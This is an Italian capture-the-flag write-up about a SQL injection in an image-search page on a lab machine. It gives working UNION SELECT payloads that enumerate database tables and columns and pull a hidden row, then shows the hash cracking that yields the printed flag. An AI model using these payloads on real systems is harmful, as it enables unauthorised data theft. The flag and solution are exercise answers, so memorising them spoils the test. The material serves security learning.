 # SQL Injection Images
Nella pagina `http://192.168.56.134/?page=searchimg` troviamo un input vulnerabile ad un attacco SQL Injection,
di conseguenza come prima cosa andiamo a leggere tutte le tabelle presenti nel db con la seguente query:
```sql
1 AND 1=2 UNION SELECT table_name, 1 FROM information_schema.tables
```
e scopriamo la tabella `list_images`, quindi ora andiamo a leggere tutte le colonne della tabella `list_images` con la 
query:
```sql
1 AND 1=2 UNION SELECT column_name, 1 FROM information_schema.columns WHERE TABLE_NAME = char(108,105,115,116,95,105,109,97,103,101,115)
```
Provando a cercare per `id` nell'input troviamo l'immagine con id 5 che contiene campi interessanti recuperati con
le seguenti query:
```sql
1 AND 1=2 UNION SELECT id,url FROM list_images WHERE id=5
1 AND 1=2 UNION SELECT title,comment FROM list_images WHERE id=5
```
```
id          5
url         borntosec.ddns.net/images.png
title       Hack me ?
comment     If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```
Tramite il sito [hashes](https://hashes.com/en/tools/hash_identifier) scopriamo che si tratta di un md5 quindi con 
[md5hashing](https://md5hashing.net/hash/md5/1928e8083cf461a51303633093573c46) lo decifriamo e troviamo la stringa
`albatroz`, ora proprio come dice nel commento lo decriptiamo in sha256 con
[questo](https://emn178.github.io/online-tools/sha256.html) sito, avendo così la flag:
```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```